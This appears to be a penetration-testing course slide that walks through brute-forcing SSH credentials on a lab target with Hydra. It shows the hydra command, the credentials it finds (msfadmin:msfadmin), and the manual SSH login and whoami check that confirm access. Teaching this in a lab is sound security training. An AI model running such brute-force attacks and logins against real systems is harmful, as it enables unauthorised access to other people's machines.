

# Brute-Force with Hydra Review

Exploitation
Run the following command to brute-force the SSh server with the generated word list:
msf > hydra -L /usr/share/ncrack/short.username -P /usr/share/ncrack/short.password ssh://198.51.100.1

It identifies the credentials msfadmin:msfadmin

Always verify the results of a brute-force attack manually, in case Hydra reported a false positive.
Run: ssh msfadmin@198.51.100.1. When prompted, press Enter  and type msfadmin as the password.
This should drop you into a shell.

Run: whoami
The shell will report that you're msfadmin, indicating that you've successfully connected to the target machine.

32